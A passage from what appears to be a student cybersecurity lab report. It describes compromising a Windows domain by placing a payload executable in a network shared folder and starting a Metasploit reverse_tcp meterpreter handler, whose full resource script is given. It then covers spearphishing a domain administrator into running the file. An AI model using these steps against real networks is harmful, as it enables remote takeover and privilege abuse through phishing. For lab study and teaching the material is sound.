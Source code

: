 	We now need to **inject** the exploit into the computers of the organization.
	For doing so, we can rely on the remote desktop connection that we opened: we copy the executable file into the `share` folder and then, from the server's remote desktop, we move it into the network shared folder.
	Doing so, all the account of the organization will be able to see (and execute) that file.
	
 7. **Run the reverse shell server:**
	For allowing us to take control of a machine, we now start the reverse shell server on Kali through the following command:
	
	`msfconsole -r ./Desktop/meterpreter.rc`
	
	where `msfconsole` is a CLI through which it is possible to interact with the Metasploit Framework and `meterpreter.rc` is a script, previously created, made up of the following commands:
	
	```
	use exploit/multi/handler
	set PAYLOAD windows/meterpreter/reverse_tcp
	set LHOST 10.0.2.15
	set ExitOnSession false
	exploit -j -z
	```
	The script, basically, starts a generic payload handler and makes it listen on the default port of the current machine for incoming connections from a `windows/meterpreter/reverse_tcp` payload, which is the one that we have injected.
	
 8. **"Convince" a Domain Administrator to run the executable:**
	In order to make this whole system effectively work, we need to "convince" a `DomainAdmins` account to run the executable: doing so, we will be able to communicate to a process (the reverse shell client) running with high privileges (*remember: all domain administrators are also local administrators*).
 
	 Our target, as stated in step (2), is the **`DomainAdmin`** account.
	 Also, we previously discovered its email address, so we use it to send a spearphishing message:
	
	![Phishing email sent to the domain administrator](https://github.com/AM311/Cybersecurity_Report/blob/main/img/email.png?raw=true)

	Hopefully, the user will anywhen run the process as instructed.
